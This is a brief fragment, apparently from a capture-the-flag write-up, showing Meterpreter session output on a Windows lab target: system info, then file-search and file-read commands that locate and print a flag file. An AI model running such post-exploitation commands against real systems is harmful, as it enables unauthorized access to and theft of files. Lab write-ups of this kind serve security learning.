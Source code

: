 ```
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

[SEARCHING FOR CONTENT](https://www.offensive-security.com/metasploit-unleashed/searching-content/)

```
meterpreter > search -f flag*
Found 2 results...
    c:\flag.txt (32 bytes)
    c:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\flag.txt.lnk (481 bytes)
meterpreter > cat c:\\flag.txt
f74c8347798f4082daf4b4570dba094a
```

